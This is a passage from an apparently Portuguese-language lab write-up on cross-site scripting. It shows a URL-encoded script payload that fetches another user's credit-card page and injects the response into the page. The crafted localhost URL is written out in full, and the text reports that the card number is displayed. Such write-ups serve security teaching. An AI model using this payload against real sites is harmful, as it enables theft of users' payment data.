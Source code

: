 Convertendo para *URL Encode*:

```
%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%20%0A%09%7B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20req.responseText%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F14%2FcreditCard%2F%3Fuser%3Dh41stur%22%2C%20true%29%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/16/?search=%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%20%0A%09%7B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20req.responseText%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F14%2FcreditCard%2F%3Fuser%3Dh41stur%22%2C%20true%29%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E&token=d8aea5b04b59ad8a36d1e2c10a77c426](http://localhost/16/?search=%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%20%0A%09%7B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20req.responseText%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F14%2FcreditCard%2F%3Fuser%3Dh41stur%22%2C%20true%29%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E&token=d8aea5b04b59ad8a36d1e2c10a77c426)

Ao acessar a URL, temos o número do cartão impresso na tela.

![Resultado](/img/posts/2023-06-21-beyond-the-alert-44.png)

#### Referências

- [https://developer.mozilla.org/en-US/docs/Web/API/Window/location](https://developer.mozilla.org/en-US/docs/Web/API/Window/location)
- [https://developer.mozilla.org/en-US/docs/Web/API/Location/search](https://developer.mozilla.org/en-US/docs/Web/API/Location/search)
- [https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/setRequestHeader](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/setRequestHeader)
- [https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/responseText](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/responseText)
- [https://developer.mozilla.org/en-US/docs/Web/Guide/AJAX](https://developer.mozilla.org/en-US/docs/Web/Guide/AJAX)
- [https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest)
